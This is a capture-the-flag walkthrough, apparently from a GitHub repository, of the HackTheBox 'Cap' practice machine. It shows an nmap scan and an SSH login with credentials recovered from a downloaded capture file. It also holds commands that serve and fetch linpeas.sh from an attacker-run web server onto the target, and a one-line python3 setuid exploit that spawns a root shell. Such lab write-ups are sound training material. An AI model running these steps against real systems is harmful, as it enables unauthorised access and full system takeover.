

# CAP-Walkthrough
HackTheBox Cap Linux · Easy Walkthrough

Ip 10.10.10.245

We start whis nmap scan 

```
nmap -A -sV -sC 10.10.10.245 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 19:27 IDT
Nmap scan report for 10.10.10.245
Host is up (0.081s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 07 Oct 2024 16:28:18 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 07 Oct 2024 16:28:13 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 07 Oct 2024 16:28:13 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=10/7%Time=67040C1C%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Mon,\x2007\x20Oct\x202024\x2016:28:13\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Mon,
SF:\x2007\x20Oct\x202024\x2016:28:13\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20OPTIONS
SF:,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Mon,\x2007\x20Oct\x202024\x2016:28:18\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 168.12 seconds
```

We look at what is on the site 



We can check what is available on other ids 

[Pasted image 20241007201859.png]

We can see that id 0 has logs, let's download them and analyze them.

[Pasted image 20241007202055.png]

we found the login and password , let's try to log in via SSH 

```
ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Oct  7 16:39:15 UTC 2024

  System load:           0.0
  Usage of /:            37.1% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             235
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:3bf3

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Oct  7 16:18:03 2024 from 10.10.14.8
nathan@cap:~$ ls
snap  user.txt
nathan@cap:~$ cat user.txt


```
We did it and we can get user flag 

Let's send linpeas.sh to the machine to check for privilege escalation vulnerabilities.

We can dowload  https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

on our attacking machine  we start web server 

```
python3 -m http.server 7777
```

 load on our target 

```
wget ip:7777/linpeas.sh
```

Give the file permissions and run

```
nathan@cap:~$ chmod 777 linpeas.sh
nathan@cap:~$ ./linpeas.sh

```
![img][image 20241007202808.png]

We found something interesting, let's google it.

[Linux Privilege Escalation - Exploiting Capabilities - Steflan's Security Blog (steflan-security.com)](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)
After reading the site, we understand that we just need to enter 1 command to get root, let's do it.

```
nathan@cap:~$ /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# ls
LinEnum.sh  linpeas.sh  snap  user.txt
# cat /root/root.txt
```
Now we can get our last flag.
